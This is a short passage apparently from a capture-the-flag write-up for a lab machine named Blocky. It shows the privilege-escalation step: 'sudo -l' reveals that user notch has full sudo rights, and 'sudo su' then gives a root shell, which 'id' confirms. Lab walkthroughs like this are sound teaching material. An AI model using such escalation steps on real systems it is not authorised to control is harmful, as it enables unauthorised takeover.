 ```shell
sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Just `sudo su` and we'll be root.
```shell
notch@Blocky:~/minecraft/config$ sudo su
root@Blocky:/home/notch/minecraft/config# id  
uid=0(root) gid=0(root) groups=0(root)
```




